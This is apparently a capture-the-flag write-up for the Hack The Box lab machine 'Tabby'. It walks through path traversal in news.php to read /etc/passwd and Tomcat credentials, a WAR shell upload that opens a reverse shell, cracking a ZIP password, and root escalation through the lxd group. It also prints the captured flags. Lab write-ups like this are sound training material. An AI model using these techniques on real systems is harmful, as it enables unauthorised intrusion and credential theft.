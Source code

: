 # Tabby

## SYN Scan
```
nmap -sS -sV -O -p- -v -T4 -Pn -oA nmap/full_syn 10.10.10.194

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4 (Ubuntu Linux; protocol 2.0)
80/tcp   open  http    Apache httpd 2.4.41 ((Ubuntu))
8080/tcp open  http    Apache Tomcat

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Mega Hosting
`Port: 80`

![tomcat](./screenshots/mega_hosting.png)

## Tomcat
`Port: 8080`

![tomcat](./screenshots/tomcat.png)

## Arbitrary Local File Read
```http
GET /news.php?file=../../../../../../../../etc/passwd HTTP/1.1
Host: megahosting.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

```http
HTTP/1.1 200 OK
Date: Fri, 16 Apr 2021 13:08:08 GMT
Server: Apache/2.4.41 (Ubuntu)
Vary: Accept-Encoding
Content-Length: 1850
Connection: close
Content-Type: text/html; charset=UTF-8

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
....
landscape:x:109:115::/var/lib/landscape:/usr/sbin/nologin
pollinate:x:110:1::/var/cache/pollinate:/bin/false
sshd:x:111:65534::/run/sshd:/usr/sbin/nologin
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
lxd:x:998:100::/var/snap/lxd/common/lxd:/bin/false
tomcat:x:997:997::/opt/tomcat:/bin/false
mysql:x:112:120:MySQL Server,,,:/nonexistent:/bin/false
ash:x:1000:1000:clive:/home/ash:/bin/bash
```

## Tomcat User Enumaration
```http
GET /news.php?file=../../../../../../../../../../../../../../../../../../usr/share/tomcat9/etc/tomcat-users.xml HTTP/1.1
Host: megahosting.htb
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
```

```xml
...
<role rolename="admin-gui"/>
<role rolename="manager-script"/>
<user username="tomcat" password="$3cureP4s5w0rd123!" roles="admin-gui,manager-script"/>
...
```

## Tomcat Login
```
tomcat:$3cureP4s5w0rd123!
```

![tomcat_admin_gui](./screenshots/tomcat_admin_gui.png)

## Tomcat Text Interface
![tomcat_text](/screenshots/tomcat_text.png)

## Tomcat Upload War File via Text Interface
Uploaded a `war` file by using tomcat's text interface.

```
$ curl --upload-file shell.war 'http://tomcat:$3cureP4s5w0rd123!@10.10.10.194:8080/manager/text/deploy?path=/foo'   
OK - Deployed application at context path [/foo]
```

`http://10.10.10.194:8080/foo/`

```
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 10.10.14.11:4444 
[*] Command shell session 4 opened (10.10.14.11:4444 -> 10.10.10.194:42578) at 2021-04-16 17:21:42 +0300

id
uid=997(tomcat) gid=997(tomcat) groups=997(tomcat)
```

## Encrypted Backup ZIP File
```
(remote) tomcat@tabby:/var/www/html/files$ ls -l
total 28
-rw-r--r-- 1 ash  ash  8716 Jun 16  2020 16162020_backup.zip
```

### Cracked The ZIP's Password
```
$ fcrackzip -v -u -D -p ~/storage/wordlists/rockyou.txt 16162020_backup.zip 
'var/www/html/assets/' is not encrypted, skipping
found file 'var/www/html/favicon.ico', (size cp/uc    338/   766, flags 9, chk 7db5)
'var/www/html/files/' is not encrypted, skipping
found file 'var/www/html/index.php', (size cp/uc   3255/ 14793, flags 9, chk 5935)
found file 'var/www/html/logo.png', (size cp/uc   2906/  2894, flags 9, chk 5d46)
found file 'var/www/html/news.php', (size cp/uc    114/   123, flags 9, chk 5a7a)
found file 'var/www/html/Readme.txt', (size cp/uc    805/  1574, flags 9, chk 6a8b)
checking pw arizon09                                

PASSWORD FOUND!!!!: pw == admin@it
```

```
$ unzip 16162020_backup.zip 
Archive:  16162020_backup.zip
   creating: var/www/html/assets/
[16162020_backup.zip] var/www/html/favicon.ico password: 
  inflating: var/www/html/favicon.ico  
   creating: var/www/html/files/
  inflating: var/www/html/index.php  
 extracting: var/www/html/logo.png   
  inflating: var/www/html/news.php   
  inflating: var/www/html/Readme.txt
```

## Privilege Escalation (ash)
Used the password of the backup zip file to log in as `ash`.

```
ash:admin@it
```

```
ash@tabby:/var/www/html$ id
uid=1000(ash) gid=1000(ash) groups=1000(ash),4(adm),24(cdrom),30(dip),46(plugdev),116(lxd)`
```

## The User Flag
```
ash@tabby:~$ ls -l
total 4
-rw-r----- 1 ash ash 33 Apr 16 14:08 user.txt
```

```
ash@tabby:~$ cat user.txt 
8b521a9dadb599908d23252797157dcf
```

## Privilege Escalation (root)
`ash` is in `lxd` group, so that he can create containers by using lxd.

https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation

```
ash@tabby:/dev/shm$ lxc exec mycontainer /bin/sh
```

```
~ # chroot /mnt/root/
root@mycontainer:/# id
uid=0(root) gid=0(root) groups=0(root)
```

## The Root Flag
```
root@mycontainer:/# ls -l /root/
total 8
-rw-r--r-- 1 root root   33 Apr 16 14:08 root.txt
```

```
root@mycontainer:/# cat /root/root.txt 
1b56d5ffe1b802eeb77e1e32006664e8
```

